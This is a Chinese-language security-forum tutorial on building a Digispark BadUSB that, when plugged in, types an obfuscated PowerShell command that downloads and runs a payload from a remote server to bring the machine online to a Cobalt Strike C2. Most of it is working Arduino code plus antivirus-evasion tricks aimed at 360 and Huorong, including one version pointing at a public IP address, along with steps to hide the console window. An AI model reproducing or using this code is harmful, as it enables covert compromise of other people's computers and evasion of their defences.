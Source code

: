

# BadUsb 实现免杀及插及上线 C2 服务器 - 先知社区

BadUsb 实现免杀及插及上线 C2 服务器

- - -

# 0x01 准备阶段

1.  购买 BadUsb，我购买的是 Digispark。

[![](assets/1708095554-d22a0cbbac01476d5c53e3b0340682c2.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20230505153939-fdb3b88a-eb17-1.jpg)

1.  安装 Arduino IDE
    
2.  配置 Arduino IDE，添加开发板，安装驱动。
    
    参考链接：[https://www.jianshu.com/p/b33d61fc2678](https://www.jianshu.com/p/b33d61fc2678)
    
3.  掌握 Digispark 编程语法。（语法较简单，可以边查边写）
    

至此，BadUsb 和开发环境均已配置完毕，可以开始编写代码。

# 0x02 编写代码

编写代码前，我们首先要了解 BadUsb 的大致原理，本质上就是插入电脑后可以模拟键盘输入，既然是模拟键盘输入，我们可以先写出一个大致的代码框架。

```bash
#include "DigiKeyboard.h"
#define MOD_SHIFT_LEFT      (1<<1)
#define MOD_CONTROL_LEFT    (1<<0)
#define KEY_ENTER   40
#define KEY_CAPS_LOCK 0x39

void setup() {
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+r
DigiKeyboard.delay(500);
DigiKeyboard.print(F("cmd")); //输入 cmd
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
DigiKeyboard.delay(500);
//后面输入恶意代码
}

void loop() {
}
```

这段代码先声明了一些键盘按键代表的字符，然后通过键盘唤起 CMD。其中插入 BadUsb 后间隔 2 秒开始执行程序，每次输入字符后都间隔 0.5s。

代码框架编写完成后，就可以开始构造我们的免杀恶意代码了。

要想通过键盘输入上线的我们的 C2 服务器，有 2 种思路。通过 powershell 命令上线 或 通过命令行文件下载恶意文件上线。

1.  文件下载上线
    
    考虑到免杀问题，certutil 这些常见的命令几乎被所有杀软拦截，网上公开的绕过方法（例如双写 certutil）可以绕过火绒，但 360 无法绕过。
    
    文件成功下载后，恶意文件的免杀也具有一定局限性，所以如果考虑免杀，那么通过文件下载这种模式来实现 BadUsb 上线存在很大难度。
    
2.  powershell 命令上线
    

​ powershell 上线也分两种方式

​ (1) 通过 ps1 文件上线

[![](assets/1708095554-a649146c99d7c1debecf3649e911d53c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230505154010-10582822-eb18-1.png)

ps1 文件免杀效果好，Github 有很多针对 ps1 文件的免杀项目，可以轻松绕过国内主流杀软。

[![](assets/1708095554-30b116c9ad964c4e97b9d50f58e21488.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230505154043-241c5a0e-eb18-1.png)

但 ps1 文件庞大的代码量又带来了一个问题，在我们编写完成代码框架后，使用 Arduino IDE 进行编译，提示“当前已使用了 45% 的存储空间”，而如果我们将 ps1 文件中的全部代码编译，则会存在闪存空间不足的问题。

[![](assets/1708095554-31913b0c669d8a66426b95cf94fa63c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230505154108-331f3dc8-eb18-1.png)

[![](assets/1708095554-3d3f1a0aef98939f56f236ff0f398efe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230505154126-3d87bbc8-eb18-1.png)

有 2 种办法解决这个问题，使用钞能力购买闪存更大的开发板，或精简我们的 ps1 文件内容。至此通过 ps1 文件上线这个思路也在这里断了。

​ (2) 通过 web 服务上线

[![](assets/1708095554-2f3100be051f3fcd14bf32e1b6bd1c43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230505154154-4e262e6a-eb18-1.png)

通过这种方法生成的 payload 较为精简，不存在闪存不足的问题，只需要针对性的做一下免杀即可。

这里给出我免杀的方法，设置别名+^字符间隔 + 加号拼接字符串。

```bash
cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "NeT.WeBClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/a') | p^o^w^e^r^s^h^e^l^l -
```

这里没有添加后台运行 powershell 的参数，因为 hidden 参数会影响免杀效果，这样的运行方式实测可以绕过火绒和 360。

那么代码就算是初步完成了，如下。

```bash
#include "DigiKeyboard.h"
#define MOD_SHIFT_LEFT      (1<<1)
#define MOD_CONTROL_LEFT    (1<<0)
#define KEY_ENTER   40
#define KEY_CAPS_LOCK 0x39

void setup() {
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+r
DigiKeyboard.delay(500);

// powershell 上线 免杀火绒 360 窗口不隐藏  需要点鼠标杀软放行
DigiKeyboard.print(F("cmd")); //输入 cmd
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
DigiKeyboard.delay(500);
DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "NeT.WeBClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/a') | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL 上线
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
}

void loop() {
}
```

# 0x03 代码优化

将写好的代码编译并烧录进 BadUsb 后，其实效果并没有那么理想，有如下几个问题：

1、部分电脑存在默认中文输入法，在模拟键盘输入的过程中会存在中文输入，未达到预期输入的内容

解决方案：开始模拟键盘输入前锁定大小写，相应的我们的免杀代码也要做出对应的大小写修改。

```bash
DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK); //锁定大小写，防止默认中文输入法

DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object \"NeT.WeBClienT\").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/A’) | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL 上线 路径大小写都要有 a A
```

2、powershell 运行完毕后，桌面留下一个黑框非常显眼。

解决方案：模拟键盘输入 wind+d 返回桌面隐藏 cmd 黑框，上线 cs 后立即迁移进程即可。

最终优化后的代码如下

```bash
#include "DigiKeyboard.h"
#define MOD_SHIFT_LEFT      (1<<1)
#define MOD_CONTROL_LEFT    (1<<0)
#define KEY_ENTER   40
#define KEY_CAPS_LOCK 0x39

void setup() {
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+r
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK); //锁定大小写，防止默认中文输入法
DigiKeyboard.delay(500);

// powershell 上线 免杀火绒 360 窗口不隐藏  需要点鼠标杀软放行
DigiKeyboard.print(F("cmd")); //输入 cmd
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
DigiKeyboard.delay(500);
DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object \"NeT.WeBClienT\").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://4'+'3.138.111.78'+'/A') | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL 上线 路径大小写都要有 a A
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_D,MOD_GUI_LEFT); //win+d
}

void loop() {
}
```

至此，实现了免杀火绒 360 BadUsb 即插即上线 CS。

# 0x04 结语

这篇文章是在我能力范围之内想出的 BadUsb 免杀上线的思路，希望能给各位师傅提供思路，如果师傅有更为新颖高效的思路也欢迎交流。

同时免杀不易，请珍惜当前可用的免杀方式，不要放在微步、VT 等平台检测免杀效果。

最后附上参考链接：

[https://www.jianshu.com/p/b33d61fc2678](https://www.jianshu.com/p/b33d61fc2678)

[https://lzy-wi.github.io/2018IAMHUAPIDAN!/06/12/badusb/](https://lzy-wi.github.io/2018/06/12/badusb/)

[https://www.cnblogs.com/binglicheng/p/11615535.html](https://www.cnblogs.com/binglicheng/p/11615535.html)

[https://blog.csdn.net/qq\_34341458/article/details/123368269](https://blog.csdn.net/qq_34341458/article/details/123368269)

[https://blog.csdn.net/weixin\_52444045/article/details/126432290](https://blog.csdn.net/weixin_52444045/article/details/126432290)
